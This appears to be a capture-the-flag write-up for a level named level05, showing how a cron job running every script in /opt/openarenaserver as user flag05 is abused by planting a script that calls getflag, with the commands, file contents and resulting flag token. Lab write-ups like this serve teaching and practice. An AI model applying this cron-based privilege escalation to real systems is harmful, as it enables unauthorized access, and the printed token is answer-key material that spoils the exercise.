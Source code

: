 # Flag 05

```bash
find / -name *level05*
```

gave me:

```text
/etc/apache2/sites-available/level05.conf
/etc/apache2/sites-enabled/level05.conf
/var/mail/level05
/rofs/etc/apache2/sites-available/level05.conf
/rofs/etc/apache2/sites-enabled/level05.conf
/rofs/var/mail/level05
```

inside /var/mail/level05:

```text
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

inside /usr/sbin/openarenaserver

```bash
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

we have created a script.sh who call getflag in the /opt/openarenaserver/ directory then

Which yields this token every 2 min: ```viuaaale9huek52boumoomioc```
